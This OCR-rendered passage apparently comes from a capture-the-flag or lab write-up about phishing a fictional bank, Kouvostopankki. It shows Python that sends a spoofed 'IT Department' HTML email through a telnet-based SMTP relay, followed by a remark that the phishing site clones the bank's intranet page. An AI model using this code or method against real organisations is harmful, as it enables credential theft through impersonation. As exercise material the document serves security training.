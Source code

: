 ```python
<p>Pinja Pirivirkkala</p>
<p>IT Department</p>
<p>Kouvostopankki</p>
</body>
</html>

.
'''

try:
    tn = telnetlib.Telnet(TChost, TCport, timeout=10)
except Exception as e:
    print(e)


welcome_msg=tn.read_until(b'Target address:', timeout=20).decode()
print(welcome_msg)
tn.write(mailHost.encode())



x=tn.read_until(b'port:', timeout=2)
tn.write(mailPort.encode())
print(x)

x=tn.read_until(b'transmission):', timeout=2)

tn.write(elhoCMD.encode())

x=tn.read_until(b'Sending data: ', timeout=2)

tn.write(fromCMD.encode())
x=tn.read_until(b'Sending data: ', timeout=2)

tn.write(toCMD.encode())
x=tn.read_until(b'Sending data: ', timeout=2)

# Start sending data:
tn.write(b"DATA\n\r")
x=tn.read_until(b'Sending data: ', timeout=2)
print(x)

for line in payload.split("\n"):
    tn.write((line+"\n\r").encode())
    waitingFor=f"Sending data: {line}"
    _=tn.read_until(waitingFor.encode(), timeout=3)
```
As for the server, I've ensured that the phishing address closely mimics intranet.kouvostopankki.fi by copying its source code.<br>